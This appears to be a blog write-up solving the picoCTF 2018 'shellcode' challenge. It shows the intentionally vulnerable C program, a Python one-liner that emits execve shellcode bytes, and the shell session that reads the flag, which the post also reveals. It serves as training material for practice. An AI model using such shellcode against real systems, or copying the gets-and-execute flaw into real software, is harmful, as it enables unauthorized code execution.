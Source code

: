 ```yaml
---
layout: post
title:  PicoCTF 2018 Challenge [Binary Exploitation 200pts]
---
```

<h3><strong>PicoCTF 2018 - Binary Exploitation 200: shellcode</strong></h3>

<hr>

<p><strong>Challenge</strong></p>

<p>
This program executes any input you give it. Can you get a shell?

You can find the program in ` /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed ` on the shell server.

Source
</p>

<hr>

<p> The challenges were very easy i have solved several of challenges but I just wrote some useful solutions </p>

<p><strong>Solution</strong></p>

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
```

<p>
by executing we connected remotly shell and show as : 
</p>

```
drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
-r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
-rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
-rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
```

<p>
the terminal shown a list of files contain Flag.txt , but we don"t have the right permision , so we need to get read the content of flag.txt by vuln .
we have already know "shellcode" i adopted Shellstorm collections 
</p>

```
$ uname -a
Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
<p>
Linux x86_64 i wrote a shellcode : 
</p>

```
$ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
/shellcode.txt

$ cat ~/shellcode.txt - | ./vuln
Enter a string!
1V_ȈF22i0tii0cjo΁
Thanks! Executing now...

ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}

```
<p>
Bingo, we Got the Flag  
</p>
<p>
picoCTF{shellc0de_w00h00_9ee0edd0}
</p>
<p>#0v3n_Sh3ll ❤</p>
